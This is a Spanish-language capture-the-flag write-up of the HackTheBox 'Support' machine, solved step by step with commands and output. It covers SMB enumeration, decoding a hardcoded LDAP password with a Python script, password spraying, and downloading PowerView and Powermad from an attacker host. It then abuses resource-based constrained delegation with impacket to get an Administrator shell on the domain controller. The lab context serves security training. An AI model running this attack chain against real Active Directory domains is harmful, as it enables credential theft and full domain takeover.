



Resolución de la máquina Support de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap -Pn 10.10.11.174
Nmap scan report for 10.10.11.174
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman
Como smb esta abierto podemos intentar listar recursos compartidos
❯ smbclient -L 10.10.11.174 -N
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
support-tools Disk support staff tools
SYSVOL Disk Logon server share
Vemos el recurso support-tools el cual contiene ciertos archivos
❯ smbclient //10.10.11.174/support-tools -N
Try "help" to get a list of possible commands.
smb: \> dir
. D 0
.. D 0
7-ZipPortable_21.07.paf.exe A 2880728
npp.8.4.1.portable.x64.zip A 5439245
putty.exe A 1273576
SysinternalsSuite.zip A 48102161
UserInfo.exe.zip A 277499
windirstat1_1_2_setup.exe A 79171
WiresharkPortable64_3.6.5.paf.exe A 44398000
4026367 blocks of size 4096. 850518 blocks available
Parecen programas genericos pero podemos ver un UserInfo.exe.zip, lo descargamos
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip
smb: \> exit
Si miramos el contenido podemos ver un exe y varios dll, analizaremos el archivo .exe
❯ 7z l UserInfo.exe.zip
Listing archive: UserInfo.exe.zip
--
Path = UserInfo.exe.zip
Type = zip
Physical Size = 277499
Size Compressed Name
------ ------------ ------------------------
12288 5424 UserInfo.exe
99840 41727 CommandLineParser.dll
22144 12234 Microsoft.Bcl.AsyncInterfaces.dll
47216 21201 Microsoft.Extensions.DependencyInjection.Abstractions.dll
84608 39154 Microsoft.Extensions.DependencyInjection.dll
64112 29081 Microsoft.Extensions.Logging.Abstractions.dll
20856 11403 System.Buffers.dll
141184 58623 System.Memory.dll
115856 32709 System.Numerics.Vectors.dll
18024 9541 System.Runtime.CompilerServices.Unsafe.dll
25984 13437 System.Threading.Tasks.Extensions.dll
563 327 UserInfo.exe.config
------ ------------ ------------------------
652675 274861 12 files
Analizandolo con dnSpy podemos ver Protected entre otras cosas

Si miramos el .cctor() podemos encontrar una cadena llamada enc_password y una key

Ahora en getPassword() podemos encontrar la manera de decodear la cadena

Podemos hacerlo facilmente con python y obtenemos la cadena decodeada
❯ python3
Python 3.10.0 on linux
>>> enc_password = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
>>> key = b"armando"
>>> import base64
>>> array = base64.b64decode(enc_password)
>>> array2 = []
>>> for i in range(len(array)):
... array2.append(chr(array[i] ^ key[i % len(key)] ^ 223))
>>> print("".join(array2))
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
Enumerando ldap con la contraseña, podemos encontrar un campo info con una contraseña
❯ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep info:
info: Ironside47pleasure40Watchful
Podemos abusar de los campos name: para crear un diccionario y hacer passwordspray
❯ ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | grep name: | sed 's/^name: //' | grep -vE 'D|C|A|U' > users.txt
❯ crackmapexec winrm 10.10.11.174 -u users.txt -p Ironside47pleasure40Watchful
WINRM 10.129.168.220 5985 DC [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
WINRM 10.129.168.220 5985 DC [*] http://10.10.11.174:5985/wsman
WINRM 10.129.168.220 5985 DC [-] support.htb\krbtgt:Ironside47pleasure40Watchful
WINRM 10.129.168.220 5985 DC [-] support.htb\ldap:Ironside47pleasure40Watchful
WINRM 10.129.168.220 5985 DC [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
El usuario support es válido, nos conectamos con evil-winrm y podemos leer la flag
❯ evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
PS C:\Users\support\Documents> whoami
support\support
PS C:\Users\support\Documents> type ..\Desktop\user.txt
8c8***************************375
PS C:\Users\support\Documents>
Después de jugar con bloodhound podemos ver que support tiene el GenericAll
Podemos guiarnos y seguir los pasos de el siguiente artículo para escalar
Iniciamos subiendo los módulos de PowerView.ps1 y Powermad.ps1 e importandolos
PS C:\ProgramData> curl 10.10.14.10/Powermad.ps1 -o Powermad.ps1
PS C:\ProgramData> curl 10.10.14.10/PowerView.ps1 -o PowerView.ps1
PS C:\ProgramData> Import-Module .\Powermad.ps1
PS C:\ProgramData> Import-Module .\PowerView.ps1
PS C:\ProgramData>
Iniciamos creando una cuenta con el nombre fake01 y la contraseña 123456
PS C:\ProgramData> New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = fake01$
Verbose: [+] Distinguished Name = CN=fake01,CN=Computers,DC=support,DC=htb
[+] Machine account fake01 added
PS C:\ProgramData>
Antes de los siguiente pasos necesitamos conseguir el sid de la cuenta que creamos
PS C:\ProgramData> Get-DomainComputer fake01 -Properties objectsid
objectsid
---------
S-1-5-21-1677581083-3380853377-188903654-5601
PS C:\ProgramData>
Ahora con el sid podemos seguir con los pasos siguientes
PS C:\ProgramData> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5601)"
PS C:\ProgramData> $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS C:\ProgramData> $SD.GetBinaryForm($SDBytes, 0)
PS C:\ProgramData> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
PS C:\ProgramData>
En el punto final mas que jugar con rubeus para obtener el ticket podemos hacerlo con impacket
Recordar agregar support.htb y dc.support.htb al archivo /etc/hosts
❯ impacket-getST support.htb/fake01:123456 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
Impacket - Copyright 2021 SecureAuth Corporation
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
Con el ticket nos podemos conectar con wmiexec y nos convertimos en Administrator
❯ export KRB5CCNAME=administrator.ccache
❯ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket - Copyright 2021 SecureAuth Corporation
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\> whoami
support\administrator
C:\> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
633**************************40a
C:\Users\Administrator\Desktop>